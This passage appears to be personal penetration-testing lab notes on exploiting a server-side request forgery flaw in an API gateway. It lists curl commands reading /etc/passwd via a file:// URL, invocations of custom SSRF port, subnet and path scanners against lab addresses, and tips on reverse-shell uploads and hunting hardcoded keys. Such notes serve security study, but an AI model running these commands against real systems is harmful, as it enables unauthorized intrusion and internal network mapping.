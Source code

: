            Can't call local files:  curl "http://192.168.1.135:8000/render?url=file:///etc/passwd&apikey=blah"
    Exploitation Example w/ Custom Scripts:
        Fuzzing API Gateway Endpoints by Verb and Method (using 3 known endpoints):
            python3 route_buster.py -a /usr/share/wordlists/dirb/small.txt -w endpoints_simple.txt -t http://192.168.169.135:8000
            python3 route_buster_multi.py -a /usr/share/wordlists/dirb/small.txt -w endpoints_simple.txt -t http://192.168.169.135:8000
        Using Vulnerable URL Parameter of Discovered API Endpoint:
            Internal Network Discovery - Port Scanning (based on error codes): Test different IPs, starting w/ localhost
                Localhost:  python3 ssrf_port_scanner.py -t http://192.168.169.135:8000/files/import -s http://localhost --timeout 5
                Or list of IPs:  python3 ssrf_port_scanner.py -t http://192.168.169.135:8000/files/import -sf ssrfIPs.txt --timeout 5
            Target Discovery - Subnet Scanning Gateways (based on latency) - using common IP ranges:
                POC - benchmark request time:  curl -X POST -H "Content-Type: application/json" -d '{"url":"http://127.0.0.1:6666"}' http://apigateway:8000/files/import -s -w 'Total: %{time_total} microseconds\n' -o /dev/null
                Port is arbitrary - only the response time matters
                python3 ssrf_gateway_isalive_scanner.py -t http://192.168.169.135:8000/files/import
                    Then modify to scan the discovered subnet for hosts:
                        python3 ssrf_subnet_isalive_scanner.py -t http://192.168.169.135:8000/files/import
                Or scan by hostname:  python3 ssrf_hostname_scanner.py -t http://192.168.169.135:8000/files/import
            Target Enumeration - port scan specific hosts in a subnet (after scanning the whole subnet - based on error codes):
                python3 ssrf_port_subnet_scanner.py -t http://192.168.169.135:8000/files/import --timeout 5
            Example Error Code Responses:
                500 Internal Server Error with "ECONNREFUSED" message: Host up, port closed
                500 Internal Server Error with "status code 404" message: Host up, port open, invalid resource
                403 Forbidden with "FORBIDDEN" message: Host up, port open, valid resource
            After enumerating internal IPs & ports, figure out which service/external endpoint url maps to each
            Call Internal Endpoint:  curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.2:9000/render"}' http://192.168.169.135:8000/files/import
            Fuzzing Internal Endpoint URL Path (using variations of external):
                python3 ssrf_path_scanner.py -t http://192.168.169.135:8000/files/import -s http://172.16.16.2:9000 -p paths.txt --timeout 5
                Fuzzing URL parameters:  python3 ssrf_path_scanner.py -t http://192.168.169.135:8000/files/import -s http://172.16.16.2:9000/api/render -p paths2.txt --timeout 5

## API Tips:

    Check the documentation! - look at example requests
    Exploits: XXE, CORS/CSRF, etc.
    Pay attention to CORS headers - non-standard types (e.g. application/json) may not be exploitable with standard headers
    ex. Starting a process/flow by uploading a .yml file with a Groovy/Python/Ruby reverse shell
    See if API authentication (or app login) is possible with a key
    Look for hardcoded keys - migration files, supporting files, etc.
    Look for API endpoint that returns keys - check documentation
    Look at plugin access - check their documentation/features - references to process execution - create payload in the plugin's language
